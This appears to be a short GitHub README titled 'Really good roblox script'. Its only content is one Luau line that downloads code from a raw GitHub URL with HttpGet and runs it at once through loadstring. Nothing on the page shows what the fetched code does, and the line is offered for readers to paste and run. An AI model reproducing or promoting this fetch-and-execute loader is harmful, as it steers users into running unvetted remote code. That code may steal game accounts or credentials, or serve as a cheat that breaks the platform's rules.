 ## Really good roblox script

loadstring(game:HttpGet("https://raw.githubusercontent.com/KrazeToolThera/rbesygojp/refs/heads/main/source.luau",true))()
